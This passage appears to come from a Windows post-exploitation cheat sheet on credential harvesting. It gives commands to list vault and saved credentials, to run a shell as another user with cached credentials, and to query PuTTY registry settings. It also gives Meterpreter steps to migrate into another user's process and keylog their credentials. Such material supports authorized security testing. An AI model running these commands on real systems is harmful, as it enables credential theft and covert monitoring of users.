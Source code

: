 ```powershell
# List vaults
vaultcmd /list

# List credentials of a given vault
vaultcmd /listproperties:"<VAULT_NAME>"

# List info about credentials
vaultcmd /listcreds:"<VAULT_NAME>"
```

The following command lists all saved credentials for different users:

```powershell
# Show saved credentials and accounts 
cmdkey /list
```

Saved credentials are used by default for a certain user. We can run a command as a different user and use these saved credentials (loaded from cache):

```powershell
# Run a shell as a different user (with its credentials)
runas /savecred /user:<DOMAIN>\<USER> cmd.exe
```

> **NOTE**: Even if the credentials are not shown, you can use the `runas /savecred /user:<user> cmd.exe` command in order to use them from a memory.

### 6.4. SSH software
PuTTY is probably the most common SSH client for Windows in use. It often stores session parameters (e.g. proxy configuration) in the Windows registry.

```powershell
# Show PuTTY configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### 6.5. Credentials keylogging
If we already have SYSTEM privileges in the OS we can set a keylogger on sessions of another user to steal their credentials.

```powershell
# Check for other users sessions
ps | grep "explorer"
```

Use `meterpreter` session:

```bash
# Migrate to the another user's process
> migrate <PID>

# Check current context
> getuid

# Run keylogger
> keyscan_start

# Wait... and dump logs
> keyscan_dump
```
